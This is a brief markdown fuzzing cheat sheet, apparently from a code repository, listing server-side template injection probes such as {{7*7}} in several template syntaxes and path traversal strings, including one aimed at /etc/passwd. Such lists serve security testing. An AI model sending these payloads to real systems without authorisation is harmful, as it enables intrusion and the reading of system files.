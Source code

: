 # Fuzz

## SSTI

```
{{7*7}}
<%=7*7%>
{%7*7%}
#{7*7}
${7*7}
[[{{7*7}}]]
[[<%=7*7%>]]
[[{%7*7%}]]
[[#{7*7}]]
[[${7*7}]]
```

## 路径穿越

```
../
/../
../../../../../../../../../etc/passwd
```